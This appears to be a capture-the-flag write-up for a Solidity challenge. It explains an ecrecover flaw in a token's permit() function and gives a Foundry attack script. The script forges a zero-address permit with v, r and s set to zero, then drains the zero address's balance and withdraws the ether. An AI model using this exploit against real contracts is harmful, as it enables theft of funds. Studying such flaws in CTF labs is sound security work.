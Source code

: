 **Coin Observation**

The Coin.sol contract contains a critical vulnerability. Here’s a high-level overview of its functionality:

1. deposit() and withdraw(): Players can deposit and withdraw ether.
2. permit(): The contract allows off-chain approvals using signatures, allowing a third party to spend tokens on behalf of the token owner without needing on-chain approval

The permit() function allows token transfers by utilizing a signed message instead of requiring an on-chain transaction. This feature is based on EIP-712 and enables gasless token approvals by signing the data off-chain.

**Steps involved**

1. Hashing the Data: The function creates a hash of the permit data, including the owner, spender, amount (value), and other parameters.
2. Recovering the Signature: The signature is verified using the `ecrecover()` function, ensuring that the signer is the token owner.
3. Allowing Spending: If valid, the spender is approved to transfer the specified amount of tokens from the owner's account.

The *vulnerability* arises in `ecrecover()` which return zero address when failed to recover address.

To get `address(0)` we need to provide `ecrecover` function with invalid parameters.


**AttackScript**


```javascript
pragma solidity 0.8.25;

import {Setup, Coin} from "../src/Setup.sol";
import {Script, console} from "forge-std/Script.sol";

contract AttackScript is Script {
    address player = vm.envAddress("MY_ADDRESS");
    Setup setup = Setup(vm.envAddress("SETUP_ADDRESS"));

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Attack(address(setup.coin()));
        setup.register();
        assert(setup.isSolved());
        vm.stopBroadcast();
    }
}

contract Attack {
    constructor(address coinAddress) {
        Coin coin = Coin(payable(coinAddress));

        address owner = address(0);
        address spender = address(this);
        uint256 value = coin.balanceOf(owner);
        uint256 deadline = block.timestamp;
        uint8 v = 0;
        bytes32 r = bytes32(0);
        bytes32 s = bytes32(0);
        coin.permit(owner, spender, value, deadline, v, r, s);

        coin.transferFrom(owner, spender, value);
        coin.withdraw(value);
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
```
